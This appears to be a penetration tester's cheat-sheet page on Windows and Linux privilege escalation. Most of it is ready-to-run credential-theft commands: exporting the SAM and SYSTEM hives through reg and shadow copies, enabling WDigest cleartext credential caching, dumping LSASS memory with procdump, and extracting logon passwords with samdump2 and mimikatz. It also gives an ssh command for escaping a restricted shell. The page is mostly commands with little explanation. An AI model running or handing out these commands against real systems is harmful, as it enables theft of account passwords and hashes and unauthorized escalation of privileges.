 # Privilege Escalation

## Windows
> [LOLBAS](https://lolbas-project.github.io/)

### Potato Attacks

### Print Spoofer
> [PrintSpoofer - Abusing Impersonation Privileges on Windows 10 and Server 2019 | itm4n](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

### Pass the Hash

#### Hash Source

##### SAM (registry)
> only local account

- Export
    - reg

        ```
        cmd> reg save HKLM\SAM .\sam.reg
        cmd> reg save HKLM\SYSTEM .\system.reg
        ```

    - vssadmin

        ```
        cmd> vssadmin create shadow
        cmd> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM .\sam.reg
        cmd> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM .\system.reg
        ```

- Show

    ```
    sh> samdump2 system sam
    ```

##### LSASS (memory)
> only logon account

- Prerequisite

    ```
    cmd> reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" /v UseLogonCredential /t REG_DWORD /d 1 /f
    ```

- Export

    ```
    cmd> procdump.exe -accepteula -ma lsass.exe lsass.dmp
    ```

- Show
    - From dump file

        ```
        mimikatz> sekurlsa::minidump lsass.dmp
        mimikatz> sekurlsa::logonPasswords
        ```
    
    - Live

        ```
        mimikatz> privilege::debug
        mimikatz> sekurlsa::logonpasswords
        ```


## Linux
> [GTFOBins](https://gtfobins.github.io/)

### Restricted Shell
> [Escape from Restricted Shells | 0xffsec](https://0xffsec.com/handbook/shells/restricted-shells/)

- `$ ssh -t localhost "bash --noprofile"`
